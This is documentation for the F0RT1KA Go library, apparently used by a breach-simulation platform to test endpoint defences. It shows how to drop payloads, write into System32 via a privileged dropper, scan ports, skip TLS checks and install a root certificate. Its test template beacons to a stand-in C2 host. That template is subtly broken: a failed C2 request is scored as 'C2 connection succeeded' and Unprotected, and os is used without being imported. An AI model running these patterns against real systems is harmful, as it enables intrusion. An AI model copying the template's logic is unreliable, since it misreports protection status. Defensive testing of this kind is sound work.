

# Test Library Framework

The F0RT1KA test library provides a set of Go packages for building security tests that run on managed endpoints. These packages handle test lifecycle, file operations, network communication, cloud service access, and cross-platform binary deployment.

## Package Overview

| Package | Import Path | Purpose |
|---------|-------------|---------|
| **Endpoint** | `f0_library/Endpoint` | Core test execution, file I/O, process management |
| **Network** | `f0_library/Network` | HTTP client, TCP/UDP, port scanning |
| **Cloud** | `f0_library/Cloud` | AWS service clients and region detection |
| **Dropper** | `f0_library/Dropper` | Cross-platform embedded binary deployment |
| **cert_installer** | `f0_library/cert_installer` | Windows certificate installation |

## Endpoint Package

The `Endpoint` package is the foundation of every security test. It provides the test lifecycle, exit codes, file operations, and platform detection utilities.

### Test Lifecycle

```go
func Start(test fn, clean ...fn)
func Stop(code int)
```

`Start` runs the test function in a goroutine with a 30-second timeout. If the test does not call `Stop` within the timeout, it exits with `TimeoutExceeded`. Optional cleanup functions run before exit regardless of outcome.

`Stop` terminates the test with a standardized exit code that the Achilles agent interprets:

#### Exit Codes

| Category | Code | Constant | Meaning |
|----------|------|----------|---------|
| **Protected** | 100 | `TestCompletedNormally` | Test ran, defense detected the activity |
| | 105 | `FileQuarantinedOnExtraction` | AV quarantined the payload on write |
| | 126 | `ExecutionPrevented` | OS or EDR blocked execution |
| **Unprotected** | 101 | `Unprotected` | Test ran to completion without detection |
| | 110 | `TestIncorrectlyBlocked` | A non-malicious action was blocked (false positive) |
| **Error** | 1 | `UnexpectedTestError` | Runtime error |
| | 102 | `TimeoutExceeded` | Test exceeded 30-second timeout |

:::info Exit Code Interpretation
The Achilles backend maps these exit codes to protection status when ingesting results into Elasticsearch. Codes 100, 105, and 126 count as "Protected" in the Defense Score. Code 101 counts as "Unprotected". All others are treated as inconclusive.
:::

### File Operations

The Endpoint package provides two file writing modes:

**Direct mode** (default):
```go
Endpoint.Write("payload.exe", contents)
// Uses os.WriteFile under the hood
```

**IPC mode** (privileged writes via dropper process):
```go
// Enable IPC mode
Endpoint.Dropper(Dropper.Dropper)

// Subsequent writes use Unix domain sockets to a child process
Endpoint.Write("C:\\Windows\\System32\\payload.dll", contents)
```

When `Dropper()` is called, it spawns an embedded child process that listens on a Unix domain socket. Subsequent `Write()` calls send GOB-encoded payloads to this process, enabling file creation with different privileges.

### Platform Utilities

```go
func GetOS() string       // "windows", "linux", or "darwin"
func CheckAdmin() bool    // Running as root/Administrator?
func IsAvailable(programs ...string) bool  // Programs in PATH?
func Say(format string, args ...any)       // Timestamped stdout logging
```

## Network Package

### HTTP Client

```go
requester := Network.NewHTTPRequest("https://target.example.com", &Network.RequestOptions{
    Timeout:    10 * time.Second,
    SkipVerify: true,              // Disable TLS cert verification
    UserAgent:  "Mozilla/5.0 ...", // Custom User-Agent
})

// GET with custom headers
resp, err := requester.GET(Network.RequestParameters{
    Headers: map[string]string{"X-Custom": "value"},
})

// POST with body
resp, err := requester.POST(Network.RequestParameters{
    Body:        []byte(`{"key": "value"}`),
    ContentType: "application/json",
    Auth:        &Network.Auth{Type: "Bearer", Token: "..."},
})
```

**Supported features:**
- Custom timeouts and User-Agent strings
- TLS certificate verification bypass
- Basic and Bearer authentication
- GZIP compression
- Custom headers and cookies

### Raw Network Communication

```go
// TCP connection with message
Network.TCP("target.example.com", "4444", payload, 5*time.Second)

// UDP datagram
Network.UDP("target.example.com", "53", dnsQuery, 3*time.Second)
```

### Port Scanning

```go
scanner := &Network.PortScan{}

// Single port check
open := scanner.ScanPort("tcp", "target.example.com", 443)

// Concurrent multi-host scan
hosts := scanner.ScanHosts(22, 80, 443, 3389, 8080)
```

## Cloud Package

The Cloud package provides pre-configured AWS service clients using the default credential chain (instance metadata, environment variables, or shared credentials file).

```go
ec2Client, err := Cloud.GetEC2Client()
ctClient, err := Cloud.GetCloudTrailClient()
rdsClient, err := Cloud.GetRDSClient()

// Automatic region detection (EC2 metadata → us-east-1 fallback)
region := Cloud.GetRegion()
```

:::tip
Cloud clients automatically detect the AWS region by querying the EC2 instance metadata service. If unavailable (e.g., running outside AWS), the region defaults to `us-east-1`.
:::

## Dropper Package

The Dropper package embeds platform-specific binaries using Go build constraints:

```go
//go:build windows && amd64
//go:embed dropper_windows_amd64.exe
var Dropper []byte

//go:build linux && amd64
//go:embed dropper_linux_amd64
var Dropper []byte

//go:build darwin && arm64
//go:embed dropper_darwin_arm64
var Dropper []byte
```

Each platform variant embeds the appropriate dropper executable. The dropper binary itself implements a Unix domain socket server that accepts file write requests:

```go
type DropperPayload struct {
    Filename string
    Contents []byte
}
```

This enables tests to write files with the privileges of the dropper process rather than the test process.

## cert_installer Package

The `cert_installer` package handles automatic installation of the F0RT1KA code signing certificate on Windows endpoints.

```go
// Install certificate if not already present
err := cert_installer.EnsureCertificateInstalled()

// Get certificate info string
info := cert_installer.GetCertificateInfo()
```

The package embeds the F0RT1KA certificate and uses PowerShell to install it in the `LocalMachine\Root` certificate store. This is required for signed test binaries to execute without SmartScreen warnings.

:::warning Windows Only
Certificate installation is a Windows-specific operation. On Linux and macOS, `EnsureCertificateInstalled()` is a no-op.
:::

## Architecture Flow



## Standard Test Pattern

Most security tests follow this template:

```go
package main

import (
    "f0_library/Endpoint"
    "f0_library/Network"
    "f0_library/Dropper"
    "f0_library/cert_installer"
)

func test() {
    // Optional: enable privileged file writes
    if err := Endpoint.Dropper(Dropper.Dropper); err != nil {
        Endpoint.Say("Dropper init failed: %v", err)
        Endpoint.Stop(Endpoint.UnexpectedTestError)
    }

    // Drop payload to disk
    if err := Endpoint.Write("payload.exe", payloadBytes); err != nil {
        // File was quarantined by AV
        Endpoint.Stop(Endpoint.FileQuarantinedOnExtraction)
    }

    // Execute or communicate
    resp, err := Network.NewHTTPRequest("https://c2.example.com", nil).
        POST(Network.RequestParameters{Body: beacon})
    if err != nil {
        Endpoint.Stop(Endpoint.Unprotected) // C2 connection succeeded
    }

    // If we got here, nothing blocked the activity
    Endpoint.Stop(Endpoint.Unprotected)
}

func cleanup() {
    Endpoint.Say("Removing artifacts...")
    os.Remove("payload.exe")
}

func main() {
    _ = cert_installer.EnsureCertificateInstalled()
    Endpoint.Start(test, cleanup)
}
```

## Platform Support

| Platform | Endpoint | Network | Cloud | Dropper | cert_installer |
|----------|----------|---------|-------|---------|----------------|
| Windows amd64 | Yes | Yes | Yes | Yes | Yes |
| Linux amd64 | Yes | Yes | Yes | Yes | No-op |
| Linux arm64 | Yes | Yes | Yes | Yes | No-op |
| macOS amd64 | Yes | Yes | Yes | Yes | No-op |
| macOS arm64 | Yes | Yes | Yes | Yes | No-op |

Platform-specific behavior (admin detection, file paths, dropper binaries) is handled via Go build constraints (`//go:build`), so tests compile and run identically across platforms.
